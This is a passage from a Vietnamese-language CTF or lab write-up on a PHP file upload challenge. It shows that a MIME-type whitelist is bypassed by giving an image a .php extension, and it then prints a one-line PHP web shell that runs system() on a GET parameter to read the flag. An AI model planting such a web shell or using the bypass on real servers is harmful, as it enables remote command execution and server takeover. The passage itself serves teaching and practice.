 ```php
        $error = $e->getMessage();
    }
}
?>
```

![image](https://hackmd.io/_uploads/B1iufS0Z0.png)

- đoạn code thực hiện chức năng tương tự như level 5 nhưng lần này sẽ có hàm kiểm tra dữ liệu bên trong file chúng ta đã upload `$mime_type = finfo_file($finfo, $_FILES['file']['tmp_name']);`: Hàm finfo_file() sử dụng đối tượng bộ phân tích tệp để xác định loại MIME của tệp được chỉ định.
- sau đó so sánh xem có đúng với dữ liệu trong Content-Type mà chúng ta cung cấp và có trong danh sách whitelist không

### Khai thác

- tương tự những bài trên mình upload 1 file ảnh bình thường và sửa tên file có phần mở rộng là .php và chương trình này không kiểm tra phần mở rộng của file

![image](https://hackmd.io/_uploads/r1mhmSRWA.png)

- như chúng ta phân tích mình đã upload file thành công và file này đã được thực thi

![image](https://hackmd.io/_uploads/BkunmBCWA.png)

- tiếp theo mình đọc flag với payload

```php
<?php echo 'SECRET============' . system($_GET[cmd]). '============SECRET'; ?>
```

- và mình lấy được flag

![image](https://hackmd.io/_uploads/HkYJ4BCZR.png)

<img  src="https://3198551054-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FVvHHLY2mrxd5y4e2vVYL%2Fuploads%2FF8DJirSFlv1Un7WBmtvu%2Fcomplete.gif?alt=media&token=045fd197-4004-49f4-a8ed-ee28e197008f">
